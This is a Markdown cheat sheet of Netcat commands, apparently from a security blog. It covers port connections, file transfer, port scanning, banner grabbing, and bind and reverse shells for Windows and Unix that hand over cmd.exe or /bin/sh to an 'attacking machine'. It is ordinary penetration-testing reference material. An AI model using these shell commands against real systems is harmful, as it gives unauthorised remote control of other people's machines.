 ```yaml
---
title:  "Netcat Cheat Sheet"
header: "Netcat Cheat Sheet"
categories: 
  - Cheatsheet
tags:
  - Netcat
---
```


Usage
-----




##Basic##

**TCP Port - Connecting**
`nc -nv <IP> <PORT>`

**TCP Port - Listening**
`nc -lvp <PORT>`

**Connect and return HTTP Page**
`nc -nv <IP> 80`
`HEAD / HTTP/1.1`

**File Transfer**
`nc -lvp 4444 > output.txt # Receiving End`
`nc -nv <IP> < input.txt # Sending End`

**Port Scanning**
`nc -z <IP> <PORT RANGE>`

**Banner Grabbing**
`echo "" | nc -nv -w1 <IP Address> <Ports>`

##Windows ##
**Bind Shell**
`nc -lvp 4444 -e cmd.exe`
`nc -nv <IP> 4444 # Connect to the shell`

**Reverse Shell**
`nc -lvp 443 # Attacking Machine - Waiting for shell`
`nc -nv <IP> 443 -e cmd.exe # Target Machine - sending shell`



##Nix##

**Bind Shell**
`nc -lvp 4444 -e /bin/sh`
`nc -nv <IP> 4444 # Connect to the shell`

**Reverse Shell**
`nc -lvp 443`
`nc -nv <IP> 443 -e /bin/sh`

##Additional Resources##
[SANS Netcat Cheat Sheet](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)
[Wikipedia](https://en.wikipedia.org/wiki/Netcat)
